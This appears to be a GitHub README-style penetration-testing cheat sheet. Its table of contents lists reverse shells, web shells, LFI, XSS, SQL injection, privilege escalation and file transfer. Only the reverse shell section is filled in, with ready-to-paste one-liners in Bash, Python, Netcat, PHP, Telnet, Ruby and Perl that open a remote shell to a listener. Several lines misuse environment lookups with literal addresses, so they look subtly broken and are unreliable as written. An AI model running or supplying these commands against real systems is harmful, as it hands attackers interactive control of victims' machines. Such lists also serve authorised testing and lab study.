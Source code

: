 ____

### Reverse shell
* #### [Bash](#reverse_shell_bash)
* #### [Python](#reverse_shell_python)
* #### [Netcat](#reverse_shell_netcat)
* #### [PHP](#reverse_shell_php)
* #### [Telnet](#reverse_shell_telnet)
* #### [Ruby](#reverse_shell_ruby)
* #### [Perl](#reverse_shell_perl)
### TTY Spawn Shell
* #### Python spawn shell
* #### OS system spawn shell
* #### Bash spawn shell
* #### Perl spawn shell
* #### Python spawn shell 
* #### Lua spawn shell 
* #### IRB spawn shell 
* #### VI spawn shell 
* #### VI(2) spawn shell 
* #### Nmap spawn shell 
### PHP Reverse Shell
* #### RCE
* #### Obfuscate PHP Web Shell
* #### PHP Reverse Shell
### LFI
* #### Directory traversal
* #### PHP Wrapper php://file
* #### PHP Wrapper php://filter
* #### Useful LFI files (Linux)
* #### Useful LFI files (Apache)
* #### Useful LFI files (MySQL)
* #### Useful LFI files (Windows)
### XSS
* #### Data grabber for XSS
* #### XSS in HTML/Applications
  * ##### Basic Payload
  * ##### Img tag payload
* #### XSS in Markdown
* #### XSS in SVG
* #### Bypass word blacklist with code evaluation
### SQL Injection Payloads
* #### Generic SQL Injection
* #### Time-Based
* #### Generic Error Based Payloads
* #### Authentication Based Payloads
* #### Order by and UNION Based Payloads
### Useful Linux command
* #### SUID Commands
* #### System Version
* #### Environment Variables
* #### Service settings
* #### Cron Jobs
* #### Other Users
* #### Port Forwarding
* #### TAR wildcard cronjob privilege escalation
### File Transfer
* #### Bash Upload
* #### Bash Download
* #### Netcat
* #### Python
* #### SCP

____

### Reverse shell > <a name="reverse_shell_bash"></a>Bash
###### bash -c 'exec bash -i &>/dev/tcp/127.0.0.1/1234 <&1'

### Reverse shell > <a name="reverse_shell_python"></a>Python
```python  
python -c 'import sys,socket,os,pty;s=socket.socket()
  s.connect((os.getenv("127.0.0.1"),int(os.getenv("1234"))))
  [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
  pty.spawn("/bin/sh")'
```

### Reverse shell > <a name="reverse_shell_netcat"></a>Netcat
###### rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f

### Reverse shell > <a name="reverse_shell_php"></a>PHP
###### php -r '$sock=fsockopen(getenv("127.0.0.1"),getenv("1234"));exec("/bin/sh -i <&3 >&3 2>&3");'

### Reverse shell > <a name="reverse_shell_telnet"></a>Telnet
###### TF=$(mktemp -u); mkfifo $TF && telnet 127.0.0.1 1234 0<$TF | /bin/sh 1>$TF

### Reverse shell > <a name="reverse_shell_ruby"></a>Ruby
###### ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["127.0.0.1"],ENV["1234"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

### Reverse shell > <a name="reverse_shell_perl"></a>Perl
###### perl -e 'use Socket;$i="$ENV{127.0.0.1}";$p=$ENV{1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
